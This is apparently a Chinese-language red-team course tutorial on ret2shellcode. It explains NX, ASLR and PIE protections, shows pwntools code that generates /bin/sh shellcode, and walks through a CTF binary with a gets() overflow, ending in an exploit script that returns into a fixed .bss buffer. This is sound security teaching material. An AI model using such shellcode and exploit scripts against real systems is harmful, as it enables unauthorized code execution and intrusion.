





# 护网行动红蓝攻防教程：P92：3.ret2shellcode

## 概述
在本节课中，我们将学习一种经典的缓冲区溢出攻击技术——**ret2shellcode**。我们将了解其核心原理、面临的现代操作系统保护措施，以及如何在实际场景中绕过这些保护来执行我们自己的代码。

---

## 什么是ret2shellcode？ 🔍

这种攻击方法被称为 **return to shellcode**。顾名思义，就是让程序的控制流返回到我们注入的一段机器码（shellcode）去执行。

shellcode既然是我们自己输入的，那么它就必须存在于程序的某个内存缓冲区中。这个缓冲区通常是**栈（stack）缓冲区**、**堆（heap）缓冲区**或者**BSS段**。

---

## 内存区域的执行权限与保护措施 🛡️

上一节我们介绍了ret2shellcode的基本概念，本节中我们来看看不同内存区域的特点和相关的安全保护。

### 堆（Heap）缓冲区
堆缓冲区默认情况下是**没有可执行权限**的。因此，如果想在堆中存放并执行shellcode，情况并不常见。因为这通常需要先调用`mprotect`这样的系统调用来为堆区赋予可执行权限。但既然都能控制程序去调用函数了，为什么不直接控制程序返回到动态链接库去调用`system`函数呢？所以，将shellcode写入堆区进行攻击是最不常见的。

### BSS段与栈（Stack）段
BSS段默认是**有可执行权限**的。栈在计算机早期也是可以执行的，但后来安全研究人员发现，如果栈可以执行，一旦发生栈溢出，攻击者就可以轻易地控制程序执行流。因此，后来增加了一个关键的保护措施：**NX（No-eXecutable）bit**，即禁止栈段执行。

我们可以通过`checksec`命令查看程序的保护措施。对于一个简单的程序，NX保护通常是默认开启的。这意味着最简单的`ret2text`攻击也因为栈不可执行而变得困难。

这个保护是由操作系统和编译器共同实现的。虽然可以在编译时关闭NX保护，但在现代环境中，默认都是开启的。因此，除非出题人故意考察，否则很难找到栈可执行的题目。

### 地址空间布局随机化（ASLR）
另一个重要的保护是**ASLR（Address Space Layout Randomization）**，即地址空间布局随机化。这是一个操作系统层面的保护措施。

以下是ASLR的几种状态：
*   **0**：关闭随机化。
*   **1**：部分随机化（随机化共享库、栈等）。
*   **2**：完全随机化（在部分随机化的基础上，随机化通过`brk`分配的堆内存）。

我们可以通过查看`/proc/sys/kernel/randomize_va_space`文件的值来确认当前系统的ASLR状态。在大多数现代系统中，这个值默认为2（完全开启）。

ASLR使得**栈的加载地址在每次程序运行时都不同**。这给攻击者带来了巨大挑战：即使攻击者通过某种方式在一次交互中泄露了栈地址，在下一次程序运行时，这个地址就失效了。因此，对于`ret2shellcode`攻击，即使能将shellcode写入栈中，也因为不知道其具体地址而无法成功返回执行。

### 位置无关可执行文件（PIE）
与栈类似，BSS段的地址也可能被随机化，这取决于**PIE（Position-Independent Executable）** 保护是否开启。PIE保护会随机化ELF文件镜像（如`.text`， `.data`， `.bss`段）的加载地址。如果PIE关闭，那么BSS段的地址就是固定的；如果开启，地址就是随机的。

对于简单的CTF题目，PIE保护默认可能是关闭的，这为`ret2shellcode`攻击提供了可能。

---

## 现代环境下的ret2shellcode策略 🎯

上一节我们了解了各种安全保护，本节我们来看看在当前的防护环境下，如何实施有效的ret2shellcode攻击。

由于栈的NX保护和ASLR保护，直接返回到栈上的shellcode已经非常困难。相比之下，BSS段通常具有可执行权限，并且在PIE关闭时拥有固定地址，因此成为了更理想的目标。

攻击思路可以概括为：
1.  找到一个位于BSS段的、足够大的、且我们能控制的全局缓冲区。
2.  将我们精心构造的shellcode写入这个缓冲区。
3.  利用栈溢出等漏洞，覆盖函数的返回地址，将其修改为BSS段中shellcode的起始地址。
4.  当函数返回时，程序就会跳转到BSS段执行我们的shellcode。

其攻击流程如下图所示：



---

## 如何生成Shellcode？ ⚙️

我们无法手动编写机器码，因此需要借助工具。一个常用的Python库是**pwntools**，它提供了强大的`shellcraft`模块。



以下是生成和转换shellcode的步骤：



1.  **生成汇编代码**：使用`shellcraft`模块生成对应架构和功能的汇编代码。例如，生成一个调用`/bin/sh`的shellcode。
    ```python
    from pwn import *
    context(arch='i386', os='linux') # 设置环境为32位Linux
    asm_code = shellcraft.sh() # 生成调用shell的汇编代码
    print(asm_code)
    ```

2.  **汇编为机器码**：CPU不识别汇编代码，需要将其转换为二进制机器码。pwntools的`asm`函数可以完成这个工作。
    ```python
    shellcode = asm(shellcraft.sh()) # 将汇编代码汇编为机器码
    print(shellcode) # 输出形式如：b'\x68\x01\x01...'
    ```
    对于64位程序，需要设置正确的架构上下文：
    ```python
    context(arch='amd64', os='linux') # 设置环境为64位Linux
    shellcode = asm(shellcraft.sh())
    ```

生成的`shellcode`是一个字节串（bytes），可以直接通过`send`函数发送给目标程序。

---

## 实战案例分析：一道ret2shellcode题目 🧩

现在，我们来看一道具体的CTF题目，应用刚才所学的知识。



首先，使用`checksec`检查程序保护：
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
关键信息：
*   **NX disabled**：栈可执行。
*   **No PIE**：BSS段地址固定。
*   **Has RWX segments**：存在可读、可写、可执行的内存段，这是危险信号。

使用IDA进行反编译，查看`main`函数逻辑：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+0h] [ebp-68h] BYREF
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  puts("No system for you this time !!!");
  gets(s);
  strcpy(buff2, s);
  return 0;
}
```
程序逻辑清晰：
1.  输出提示信息。
2.  使用不安全的`gets`函数向栈上变量`s`读入数据，存在**栈溢出漏洞**。
3.  将`s`的内容复制到全局变量`buff2`中。

双击`buff2`查看其位置，可以发现它位于**.bss段**，地址为`0x804A080`。

### 攻击思路
虽然栈可执行（NX关闭），但由于ASLR，我们无法知道栈上shellcode的具体地址。然而，`buff2`在BSS段，且PIE关闭，其地址`0x804A080`是固定的。

因此，攻击步骤如下：
1.  构造包含shellcode的payload。
2.  利用`gets`的栈溢出，覆盖`main`函数的返回地址。
3.  将返回地址覆盖为BSS段中`buff2`的地址`0x804A080`。
4.  当`main`函数返回时，程序跳转到`buff2`处执行我们预先写入的shellcode。

攻击流程示意图如下：


利用pwntools编写攻击脚本的核心结构如下：
```python
from pwn import *

# 设置上下文
context(arch='i386', os='linux')

# 连接远程或本地程序
io = remote('目标IP', 端口) # 或 process('./程序名')

# 生成shellcode
shellcode = asm(shellcraft.sh())

# 构造payload
# 先填充垃圾数据直到覆盖返回地址，然后填入BSS地址
payload = shellcode.ljust(覆盖偏移量, b'A') + p32(0x804A080)

# 发送payload
io.sendline(payload)

# 获取shell
io.interactive()
```

---

## 总结 🎓


本节课我们一起学习了**ret2shellcode**攻击技术。我们首先了解了其核心思想是控制程序返回到注入的shellcode执行。然后，深入探讨了现代操作系统为抵御此类攻击引入的保护措施：**NX（栈不可执行）**、**ASLR（地址随机化）** 和 **PIE（地址无关可执行）**。这些保护使得直接返回到栈上的shellcode变得非常困难。

在实际攻击中，我们更倾向于将shellcode写入具有固定地址且可执行的**BSS段**。最后，我们通过一道CTF题目分析了完整的攻击流程：从识别漏洞、确定可用的内存区域（BSS段），到利用pwntools生成shellcode、构造payload并最终获取目标系统的控制权。

理解这些基础攻击手法和防护机制，是提升应急响应和渗透测试能力的关键一步。